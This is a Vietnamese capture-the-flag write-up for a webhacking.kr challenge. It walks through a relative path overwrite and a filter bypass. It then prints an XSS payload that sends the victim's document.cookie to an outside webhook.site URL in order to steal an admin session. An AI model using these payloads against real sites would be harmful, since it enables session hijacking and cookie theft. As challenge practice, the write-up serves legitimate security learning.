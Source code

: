 ## Khai thác

Em bắt đầu bằng việc tạo một result giả để thay cho XMLHttpRequest() được gọi: `{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}`

Nếu chỉ để như vậy thì đoạn dữ liệu trả về sẽ kèm theo not found:

![](https://i.imgur.com/TxSlime.png)

Để xóa được chữ not found em dựa vào việc web filter ký tự < > và dữ liệu bên trong nó nên em đã thêm vào payload `<a`: `{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}<a`

Và thế là chữ not found đã biến mất:

![](https://i.imgur.com/eWpbAcN.png)

Giờ đến RPO: `http://webhacking.kr:10011/api.php/search/{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}<a/..%2f..%2f..%2f` 

Vì web server là nginx nên khi em encode ký tự `/` thành `%2f` nên server sẽ không decode nhưng payload đó được thực hiện trong js và nó sẽ hiểu đoạn payload của em như sau: `http://webhacking.kr:10011/api.php/search/{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}<a/../../../api.php`

Và kết quả em nhận được là: 

![](https://i.imgur.com/xp6RKbT.png)

Đã RPO thành công giờ em cần XSS lấy cookie admin nhưng vấn đề ở đây là ký tự < đã bị filter và web sẽ xóa hết những gì giữa < và > vậy nên giờ em phải bypass ký tự <, và sau 1 hồi tìm kiếm thì em sử dụng unicode và url encode để bypass ký tự `<` = `%5cu003c`:

Payload: `{"results":[{"name":"%5cu003cimg src=a onerror=location.href='https://webhook.site/19f12290-974f-4ea8-9e5b-84af2806beff?c='+document.cookie>","terrain":"a","population":"a","diameter":"1"}]}<a/..%2f..%2f..%2f`

Và vẫn giống như chall trước T.T em tự test trên trình duyệt thì được nhưng khi report cho admin thì chờ mãi không thấy cookie của admin đâu :cry: 

![](https://i.imgur.com/ttoIt2w.png)
